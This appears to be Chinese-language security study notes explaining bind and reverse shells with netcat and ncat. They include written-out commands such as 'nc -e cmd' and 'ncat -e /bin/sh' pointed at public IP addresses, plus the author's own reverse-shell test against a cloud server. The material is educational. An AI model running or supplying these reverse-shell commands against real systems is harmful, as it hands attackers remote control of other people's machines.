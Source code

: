 ![image-20250918224239917](https://img.yatjay.top/md/20250918224239964.png)

使用Windows主动连接目标5566端口，即可控制Linux主机

```cmd
nc 47.94.236.117 5566
```

![image-20250918224312991](https://img.yatjay.top/md/20250918224313025.png)

#### 反向连接：主动给出去，对方监听

##### Windows主动给出cmd

绑定Windows主机的CMD到目标主机的5566端口

```cmd
nc -e cmd 47.94.236.117 5566
```

在目标主机上，监听5566端口，即等待5566连接

```cmd
ncat -lvvp 5566
```

##### Linux主动给出bash

绑定Linux主机的bash到目标主机的5566端口

```cmd
ncat -e /bin/sh 47.122.23.131 5566
```

该命令含义是：使用ncat连接到IP地址为`47.122.23.131`的5566端口，并且在连接建立后，在该主机上执行`/bin/sh`，从而让远程客户端能够通过这个连接发送shell命令并接收输出

![image-20250918225426838](https://img.yatjay.top/md/20250918225426881.png)

在目标主机上，监听5566端口，即等待5566连接

```cmd
nc -lvvp 5566
```

![image-20250918225444767](https://img.yatjay.top/md/20250918225444816.png)

##### 笔者测试反弹shell

已知云服务器IP为x.x.x.x，将本地Windows主机的cmd反弹至云服务器的5566端口

![image-20250918234120615](https://img.yatjay.top/md/20250918234120664.png)

在云服务器一侧，要确保云服务器安全组策略放开且系统软防火墙服务关闭或放行5566端口，然后监听本地5566端口。连接建立后，可以向Windows主机执行cmd命令，下图是执行dir命令的回显。经过确认，图中显示的`171.217.42.215`正是笔者的公网IP地址

这里笔者的反弹shell测试当中，Windows主机正是一个内网环境的设备，它需要主动向外网控制端主机给出cmd，才能继续进行测试。

![image-20250918233829161](https://img.yatjay.top/md/20250918233829214.png)
